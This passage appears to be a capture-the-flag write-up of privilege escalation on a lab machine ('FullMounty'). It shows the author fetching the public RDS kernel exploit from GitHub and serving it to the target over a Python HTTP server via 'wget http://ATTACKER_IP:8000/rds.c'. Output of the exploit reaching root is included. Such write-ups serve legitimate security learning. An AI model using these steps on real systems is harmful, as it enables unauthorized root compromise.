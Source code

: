 
## 🚀 Privilege Escalation

After obtaining SSH access as the deadbeef user, I began enumerating the target system for privilege escalation vectors.

Kernel Exploit Used:

Upon reviewing the kernel version and configuration, I identified that the machine was vulnerable to the rds exploit, which leverages a vulnerability in the Reliable Datagram Sockets (RDS) implementation.

Reference:
GitHub - https://github.com/lucyoa/kernel-exploits/blob/master/rds/rds


📥 Exploit Transfer

I serveD the exploit locally with a simple Python HTTP server and retrieve it on the target with wget.

Steps Taken:

Download the Exploit Locally:

On my attacker machine:
```
wget https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/rds/rds.c -O rds.c
```

Start a Python HTTP Server:

From the same directory:

```
python3 -m http.server
```

This made rds.c available over HTTP on port 8000.

Download the Exploit on the Target:

On the target via SSH:

```
wget http://ATTACKER_IP:8000/rds.c -O /tmp/rds.c
```

what happened was this:
```
Saving to: `rds'

100%[=============================================================================>] 582,477      212K/s   in 2.7s    

2025-06-20 13:18:30 (212 KB/s) - `rds' saved [582477/582477]

deadbeef@FullMounty:~$ chmod +x rds        
deadbeef@FullMounty:~$ ./rds
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc08c8c2c
 [+] Resolved default_security_ops to 0xc0773300
 [+] Resolved cap_ptrace_traceme to 0xc02f3dc0
 [+] Resolved commit_creds to 0xc016dcc0
 [+] Resolved prepare_kernel_cred to 0xc016e000
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
```